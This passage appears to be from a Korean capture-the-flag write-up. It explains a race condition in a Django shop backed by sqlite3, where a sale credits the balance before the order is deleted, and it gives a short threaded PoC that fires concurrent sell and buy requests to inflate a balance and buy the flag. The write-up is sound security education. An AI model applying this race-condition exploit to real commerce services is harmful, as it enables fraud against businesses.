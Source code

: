 ```python

        request.user.balance += order.product.price
        request.user.save()

        order.delete()

        return success({})

```

평범하게 사고파는 것 같지만 이 가게는 상대방을 신뢰하여 팔 때는 물건을 먼저 주고 살 때는 돈을 먼저 줍니다. 저희는 이 부분을 이제부터 공략할 것입니다. 물론 팔 때는 보유 잔액을 검사하고 살 때는 주문이 있었던 물품인지를 검사하는 것이 안전해 보입니다. 과연 그럴까요?

이 서비스는 db로 sqlite3를 사용합니다.

```python
DATABASES = {
    'default': {
        'ENGINE': 'django.db.backends.sqlite3',
        'NAME': BASE_DIR / 'db.sqlite3',
    }
}

```

sqlite3는 다수의 프로세스가 하나의 데이터베이스 파일에 읽고 쓰는 구조인데 무결성을 보장하기 위해 Lock이 존재합니다. 읽을 때는 shared lock이 걸리며 쓸 때는 exclusive lock이 걸리는데 exclusive lock은 하나만 허용됩니다. 그래서 해당 서비스로 동시에 들어온 구매 및 판매 요청은 조금의 delay를 두고 처리되게 됩니다.

사용자가 구매한 취약점을 팔아서 돈을 얻고 가게에서 사용자의 보유 물품을 없애는 것을 처리하기 전에 얻은 돈으로 물건을 계속 사면 어떻게 될까요? 물건을 살 때 보유한 돈이 차감되는 시점은 보유 물품을 없애는 것이 처리된 이후입니다. 하지만 그전에 이루어진 n번의 구매요청에서 잔액 검사를 통과하여 물품 먼저 받는다면 m개의 물품을 획득할 수 있습니다. (0<m<n)

이 m개의 물품을 팔아 돈을 많이 얻어서 flag를 사면 됩니다.

```python
#PoC
for idx in range(init_idx, init_idx+20, 1):
    t = threading.Thread(target=sell, args=(idx,))
    t.start()
    t.join()
    t1 = threading.Thread(target=buy , args = ())
    t2 = threading.Thread(target=buy , args = ())
    t1.start()
    t2.start()
    t1.join()
    t2.join()

for idx in range(init_idx, init_idx+40, 1):
    sell(idx)
buy_flag()
get_flag()

```
